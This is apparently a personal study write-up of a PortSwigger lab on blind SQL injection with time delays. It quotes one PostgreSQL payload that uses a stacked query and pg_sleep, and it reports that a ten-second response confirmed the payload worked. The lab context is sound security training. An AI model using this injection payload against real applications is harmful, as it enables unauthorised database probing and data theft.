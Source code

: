 # Blind SQL injection with time delays
#BLINDSQLI 
#WRITEUP 

Looking at the payloads available on the [SQL injection cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)
![[SQLInjection/Attacks/Blind SQL injection/labs/Blind SQL injection with time delays/images/payload.png]]

I tried the PostgreSQL payload and it worked.

```SQL
';SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END--
```

Using and batched query and URL encoding the payload above, will solve the lab.

![[SQLInjection/Attacks/Blind SQL injection/labs/Blind SQL injection with time delays/images/exploit.png]]

The response to the request takes around 10 seconds to come back, demonstrating that the payload works.


